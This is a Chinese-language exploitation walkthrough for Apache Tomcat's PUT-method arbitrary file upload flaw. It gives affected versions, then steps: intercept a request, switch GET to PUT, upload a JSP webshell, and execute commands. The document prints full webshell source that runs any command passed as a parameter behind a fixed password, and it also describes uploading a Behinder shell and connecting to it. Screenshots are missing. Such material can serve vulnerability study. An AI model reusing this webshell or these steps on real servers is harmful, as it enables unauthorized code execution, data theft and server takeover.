







# 漏洞描述

Tomcat 是一个小型的轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用，是开发和调试JSP 程序的首选。 攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 的webshell文件，JSP文件中的恶意代码将能被服务器执行，导致服务器上的数据泄露或获取服务器权限。


# 影响版本

Apache Tomcat 7.0.0 - 7.0.79

Apache Tomcat /8.5.19


# 漏洞验证

访问主页，抓包



放入repeat

修改GET请求为PUT



204 成功


上传jsp木马文件

```
<%
    if("123".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%> 
```




成功上传



命令执行




或者利用冰蝎生成jsp木马文件



put写入




成功写入后用冰蝎去连

